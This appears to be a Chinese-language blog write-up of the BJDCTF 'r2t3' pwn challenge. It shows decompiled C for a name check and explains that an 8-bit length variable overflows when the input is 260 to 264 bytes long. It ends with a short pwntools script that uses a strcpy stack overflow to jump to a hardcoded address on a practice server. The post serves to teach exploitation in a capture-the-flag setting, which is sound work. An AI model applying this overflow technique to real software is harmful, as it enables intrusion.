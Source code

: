 ```yaml
---
layout: post
title:  r2t3
date:   2021-01-28 00:01:01 +0300
image:  2021-01-28-sunset.jpg
tags:   [ctf,Pwn,BJDCTF]
---
```


主函数

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+0h] [ebp-408h]

  my_init();
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("[+]Ret2text3.0?");
  puts("[+]Please input your name:");
  read(0, &buf, 0x400u);
  name_check(&buf);
  puts("Welcome ,u win!");
  return 0;
}
```

无漏洞，查看name_check()函数

```assembly
char *__cdecl name_check(char *s)
{
  char dest; // [esp+7h] [ebp-11h]
  unsigned __int8 v3; // [esp+Fh] [ebp-9h]

  v3 = strlen(s);
  if ( v3 <= 3u || v3 > 8u )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
  printf("Hello,My dear %s", s);
  return strcpy(&dest, s);
}
```

此处dest大小只有0x11，存在漏洞。

但是想要利用漏洞必须先绕过strlen()函数，第一反应想到使用'\0'绕过，但是'\0'也会绕过strcpy()，这样就无法造成dest溢出。

后来发现v3的类型为__int8

Int8, 等于Byte, 占1个字节.

Int16, 等于short, 占2个字节. -32768~32767

Int32, 等于int, 占4个字节. -2147483648~2147483647

Int64, 等于long, 占8个字节. -9223372036854775808~9223372036854775807

此处可以利用整数溢出

即4+2<sup>8</sup>=260~8+2<sup>8</sup>=264

```assembly
from pwn import *

io = remote("node3.buuoj.cn",26212)

system = 0x804858b
payload = "a" * (0x11 + 4) + p32(system)
payload  = payload.ljust(260, "a")
io.send(payload)

io.interactive()
```

